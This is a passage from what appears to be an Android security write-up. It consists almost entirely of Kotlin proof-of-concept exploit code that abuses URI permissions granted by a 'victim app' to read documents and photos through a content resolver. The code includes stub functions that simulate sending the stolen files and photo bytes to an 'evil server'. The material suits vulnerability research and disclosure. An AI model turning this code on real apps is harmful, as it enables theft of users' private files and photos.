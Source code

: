 ```kotlin
        // Receive URI permissions granted by victim app
        val grantedUri = intent.data
        Log.d("URI_GRANTED", "Received URI permissions: $grantedUri")
        
        if (grantedUri != null) {
            stealSensitiveData(grantedUri)
        }
        finish()
    }
    
    private fun stealSensitiveData(baseUri: Uri) {
        try {
            // Access documents using granted prefix permissions
            val documentsUri = Uri.withAppendedPath(baseUri, "documents")
            contentResolver.query(documentsUri, null, null, null, null)?.use { cursor ->
                while (cursor.moveToNext()) {
                    val filename = cursor.getString(cursor.getColumnIndex("filename"))
                    val content = cursor.getString(cursor.getColumnIndex("content"))
                    Log.d("STOLEN_DOCUMENT", "File: $filename, Content: $content")
                    
                    // Send stolen data to attacker server
                    sendToServer(filename, content)
                }
            }
            
            // Access photos using granted permissions
            val photosUri = Uri.withAppendedPath(baseUri, "photos")
            contentResolver.query(photosUri, null, null, null, null)?.use { cursor ->
                while (cursor.moveToNext()) {
                    val filename = cursor.getString(cursor.getColumnIndex("filename"))
                    Log.d("STOLEN_PHOTO", "Photo: $filename")
                    
                    // Download actual photo file
                    val photoUri = Uri.withAppendedPath(photosUri, filename)
                    contentResolver.openInputStream(photoUri)?.use { inputStream ->
                        val photoData = inputStream.readBytes()
                        Log.d("PHOTO_STOLEN", "Photo data size: ${photoData.size} bytes")
                        sendPhotoToServer(filename, photoData)
                    }
                }
            }
        } catch (e: Exception) {
            Log.e("EXPLOIT_ERROR", "Failed to steal data", e)
        }
    }
    
    private fun sendToServer(filename: String, content: String) {
        // Simulate sending to attacker server
        Log.d("DATA_EXFILTRATED", "Sending $filename to evil server")
    }
    
    private fun sendPhotoToServer(filename: String, data: ByteArray) {
        // Simulate sending photo to attacker server
        Log.d("PHOTO_EXFILTRATED", "Uploading $filename (${data.size} bytes) to evil server")
    }
}
```
## Testing
